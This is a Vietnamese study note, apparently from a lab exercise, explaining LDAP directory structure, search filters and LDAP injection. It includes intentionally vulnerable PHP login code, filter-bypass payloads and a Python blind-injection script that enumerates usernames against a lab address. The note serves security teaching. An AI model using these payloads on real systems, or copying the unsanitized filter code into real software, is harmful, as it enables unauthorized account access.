




# **LDAP Injection**
## **1. Structure**
### **Services that use LDAP**
- Microsoft Active Directory
- OpenLDAP

### **LDIF Format**
**LDAP Data Interchange Format**: định dạng file text để mô tả dữ liệu trong directory đó

```
dn: uid=an,ou=People,dc=company,dc=com
objectClass: inetOrgPerson
cn: Nguyen Van An
sn: An
uid: an
mail: an@company.com
```

- `dn`: địa chỉ đầy đủ của entry trong cây LDAP
- `objectClass`: kiểu đối tượng
- `cn`: common name
- `sn`: surname
- `uid`: username
- `mail`: email

> 1 `entry` là một bản ghi của đối tượng trong LDAP, nó tương tự 1 `row` trong DB

### **Structure**
1 LDAP Directory tuân theo cấu trúc phân cấp như cây thư mục, nó biểu diễn các entry duy nhất như user, group và resource



Trên cùng ta có **top-level domain (TLD)** như `dc=ldap,dc=thm`\
Bên dưới thì ta có `subdomains` hoặc **organizational units (OUs)** như `ou=people`, `ou=group`\
**Distinguished Names (DNs)**: Đóng vai trò là mã định danh duy nhất cho mỗi mục trong thư mục, chỉ định đường dẫn từ đầu LDAP tree đến entry; ví dụ: `cn=John Doe,ou=people,dc=example,dc=com`\
`Relative Distinguished Names (RDNs)`: Đại diện cho các cấp độ cá nhân trong hệ thống phân cấp thư mục ví dụ: `cn=John Doe`\
`Attributes`: Xác định thuộc tính của các mục thư mục, `mail=john@example.com` được biểu diễn cho mail

## **2. Search Queries**
**LDAP search query** cho phép bạn định vị và lấy thông tin được lưu trữ trong thư mục

### **Search Queries**

Một LDAP query bao gồm những phần tử:
1. **Base DN (Distinguished Name)**: Đây là điểm bắt đầu tìm kiếm trong cây thư; ví dụ đặt `ou=People,dc=company,dc=com` thì nó sẽ tìm kiếm từ `ou=People`
2. **Scope**: từ Base DN, được phép tìm sâu xuống bao nhiêu tầng
- `base`: Chỉ kiểm tra chính **Base DN**
```
ou=People    ← tìm cái này thôi
│
├── uid=an   ✗
├── uid=binh ✗
└── uid=nam  ✗
```

- `one`: Tìm các entry con trực tiếp

```
ou=People
│
├── uid=an    ✓
├── uid=binh  ✓
└── uid=nam   ✓
```

Nhưng nếu `uid=an` còn có entry con nữa thì không đi sâu xuống

- `sub`: Tìm Base DN + toàn bộ entry bên dưới, bất kể sâu bao nhiêu

```
ou=People       ✓
│
├── uid=an      ✓
│   └── ...     ✓
│       └── ... ✓
│
├── uid=binh    ✓
└── uid=nam     ✓
```

3. **Filter**: điều kiện entry phải thỏa mãn

`(&(objectClass=person)(uid=an))`: tìm `objectClass` là `person` và `uid` là `an`

4. **Attributes**: Tìm được entry rồi thì muốn lấy những thông tin nào của entry đó?

> Cú pháp đơn giản của 1 query: `(base DN) (scope) (filter) (attributes)`

### **Filters and Syntax**
LDAP Filter cũng sử dụng các toán tử tiêu chuẩn như `=`, `=*`, `<=`, `>=`

- **Simple Filter**: `(cn=John Doe)`
- **Wildcards**: `(cn=J*)`
- **Complex Filters with Logical Operators**: dùng để kết hợp các mệnh đề để filter như AND(`&`), OR(`||`), NOT(`!`)

LDAP hoạt động trên cổng `389`(*không bảo mật*) và `636`(*SSL/TLS*)\
Công cụ `ldapsearch` trong bộ công cụ của **OpenLDAP**
```bash
ldapsearch -x -H ldap://10.49.144.85:389 -b "dc=ldap,dc=thm" "(ou=People)"
```

## **3. Injection Fundamentals**
**LDAP injection** tương tự như **SQL injection**, lỗ hổng cũng xảy ra khi đầu vào của người dùng không được xác minh chi tiết, dẫn đến attacker có thể thực hiện truyền vào mã độc để thực thi trong hệ thống

**Common Attack Vectors**:
- **Authentication Bypass**: có thể thực hiện để truy cập trái phép vào tài khoản của người khác mà không cần biết mật khẩu (*LDAP authentication queries*)
- **Unauthorized Data Access**: lấy những thông tin nhạy cảm mà không có quyền (*LDAP search queries*) 
- **Data Manipulation**: có thể thêm, sửa, xóa thuộc tính của user 



Quá trình giao tiếp giữa attacker và hệ thống được biểu diễn ở hình minh họa trên 

## **4. Exploiting LDAP**
Ví dụ của một đoạn code kết nối và lấy dự liệu từ LDAP bằng PHP chứa lỗ hổng:

```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$ldap_server = "ldap://localhost";
$ldap_dn = "ou=People,dc=ldap,dc=thm";
$admin_dn = "cn=tester,dc=ldap,dc=thm";
$admin_password = "tester"; 

$ldap_conn = ldap_connect($ldap_server);
if (!$ldap_conn) {
    die("Could not connect to LDAP server");
}

ldap_set_option($ldap_conn, LDAP_OPT_PROTOCOL_VERSION, 3);

if (!ldap_bind($ldap_conn, $admin_dn, $admin_password)) {
    die("Could not bind to LDAP server with admin credentials");
}

// LDAP search filter
$filter = "(&(uid=$username)(userPassword=$password))";

// Perform the LDAP search
$search_result = ldap_search($ldap_conn, $ldap_dn, $filter);

// Check if the search was successful
if ($search_result) {
    // Retrieve the entries from the search result
    $entries = ldap_get_entries($ldap_conn, $search_result);
    if ($entries['count'] > 0) {
        foreach ($entries as $entry) {
            if (is_array($entry)) {
                if (isset($entry['cn'][0])) {
                    $message = "Welcome, " . $entry['cn'][0] . "!\n";
                }
            }
        }
    } else {
        $error = true;
    }
} else {
    $error = "LDAP search failed\n";
}
?>
```

Đoạn code trên xảy ra lỗi ở phần 

```php
$filter = "(&(uid=$username)(userPassword=$password))";
```

Nó gán thẳng input của người dùng vào câu lệnh tìm kiếm, attacker có thể dùng dấu wildcard (`*`) để thực hiện bypass

### **Authentication Bypass Techniques**
#### **Tautology-Based Injection** (*Biểu thức luôn đúng*)
Ví dụ câu lệnh để xác thực người dùng là 

```
(&(uid={userInput})(userPassword={passwordInput}))
```

Ta có thể điền vào `userInput` với giá trị `*)(|(&)` và giá trị của `passwordInput` là `123abc)`, khi đó biểu thức của truy vấn sẽ là:

```
(&(uid=*)(|(&)(userPassword=123abc)))
```

Khi này, filter sẽ tìm kiếm `uid` bằng tất cả những gì nó tìm được bằng `*`, vậy nên kết quả luôn là `TRUE`\
`(&)` trả về `TRUE` và `(userPassword=123abc)` có thể trả về `TRUE` hoặc `FALSE`\
Nhưng `|` sẽ kết hợp 2 điều kiện này với nhau và luôn trả về giá trị `TRUE`\
Sau đó thì kết hợp với biểu thức đằng trước bằng `&`, vậy nên kết quả của query này luôn trả về `TRUE`

#### **Wildcard Injection**
Sử dụng kí tự wildcard (`*`) để bypass cơ chế xác thực của hệ thống

## **5. Blind LDAP Injection**
**Blind LDAP Injection** cầu một cách tiếp cận khác do thiếu kết quả truy vấn rõ ràng. Những kẻ tấn công phải dựa vào các dấu hiệu gián tiếp, chẳng hạn như những thay đổi trong hành vi ứng dụng, thông báo lỗi hoặc thời gian phản hồi để suy ra cấu trúc của truy vấn LDAP và sự tồn tại của các lỗ hổng 

```php
$username = $_POST['username'];
$password = $_POST['password'];

$ldap_server = "ldap://localhost"; 
$ldap_dn = "ou=users,dc=ldap,dc=thm";
$admin_dn = "cn=tester,dc=ldap,dc=thm"; 
$admin_password = "tester"; 

$ldap_conn = ldap_connect($ldap_server);
if (!$ldap_conn) {
    die("Could not connect to LDAP server");
}

ldap_set_option($ldap_conn, LDAP_OPT_PROTOCOL_VERSION, 3);

if (!ldap_bind($ldap_conn, $admin_dn, $admin_password)) {
    die("Could not bind to LDAP server with admin credentials");
}

$filter = "(&(uid=$username)(userPassword=$password))";
$search_result = ldap_search($ldap_conn, $ldap_dn, $filter);

if ($search_result) {
   $entries = ldap_get_entries($ldap_conn, $search_result);
    if ($entries['count'] > 0) {
        foreach ($entries as $entry) {
            if (is_array($entry)) {
                if (isset($entry['cn'][0])) {
                    if($entry['uid'][0] === $_POST['username']){
                        $message = "Welcome, " . $entry['cn'][0] . "!\n";
                    }else{
                        $message = "Something is wrong in your password.\n";
                    }
                }
            }
        }
    } else {
        $error = true;
    }
} else {
    echo "LDAP search failed\n";
}

ldap_close($ldap_conn);
```

Ta có thể sử dụng kĩ thuật phá vơ cấu trúc của query để có thể thay đổi hành vi của hệ thống: phần `username` sẽ nhập giá trị là `a*)(|(&`, phần `password` sẽ nhập giá trị là `pwd)`; khi đó câu truy vấn sẽ trở thành `username=a*%29%28%7C%28%26&password=pwd%29`



Khi có tồn tại dữ liệu của người dùng bắt đầu bằng `a`, nó sẽ có thông báo là `Something is wrong in your password.`, còn khi không tồn tại người dùng trong hệ thống, nó sẽ thông báo là `Password incorrect.`\
Ta có thể dựa vào sự khác biệt này để có thể tìm ra được tên của người dùng chính xác

### **PoC**

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://10.49.171.137/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```




